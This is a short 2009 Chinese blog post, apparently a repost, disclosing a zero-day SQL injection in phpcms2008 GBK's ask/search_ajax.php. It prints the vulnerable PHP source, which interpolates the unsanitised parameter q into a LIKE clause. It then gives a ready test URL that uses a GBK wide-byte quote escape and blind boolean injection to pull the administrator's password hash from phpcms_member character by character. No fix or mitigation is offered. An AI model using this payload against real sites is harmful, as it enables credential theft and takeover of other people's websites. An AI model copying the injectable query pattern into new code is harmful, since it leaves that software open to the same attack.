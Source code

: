 ```yaml
---
title: phpcms2008 0day ask/search_ajax.php
description: phpcms20080dayask/search_ajax.php受影响程序：phpcms2008gbk漏洞文件：ask/search_ajax.php......
date: 2009-03-16 09:20:30
category: 漏洞信息
tags: ['PhpCms', '漏洞信息', '0day']
post_id: 815
alias: phpcms2008-0day-ask-search_ajax.php
ViewNums: 3240
---
```


[phpcms2008 0day ask/search_ajax.php](/blog/phpcms2008-0day-ask-search_ajaxphp)

受影响程序： phpcms2008 gbk

漏洞文件：ask/search_ajax.php
```php
<?php
require './include/common.inc.php';
require_once MOD_ROOT.'include/ask.class.php';
$ask = new ask();
header('Content-type: text/html; charset=utf-8');
if(strtolower(CHARSET) != 'utf-8') $q = iconv(CHARSET, 'utf-8', $q);
if($q)
{
$where = " title LIKE '%$q%' AND status = 5";
}
else
{
exit('null');
}
$infos = $ask->listinfo($where, 'askid DESC', '', 10);

foreach($infos as $key=>$val)
{
$val['title'] = str_replace($q, '<span class="c_orange">'.$q.'</span>', $val['title']);
$info[$key]['title'] = CHARSET != 'utf-8' ? iconv(CHARSET, 'utf-8', $val['title']) : $val['title'];
$info[$key]['url'] = $val['url'];
}

echo(json_encode($info));
?>
```
测试方法：
```
ask/search_ajax.php?q=s%E6'/**/or/**/(select ascii(substring(password,1,1))/**/from/**/phpcms_member/**/where/**/username=0x706870636D73)>52%23
```
via [nuke](http://www.nukeblog.cn/article/125.htm)

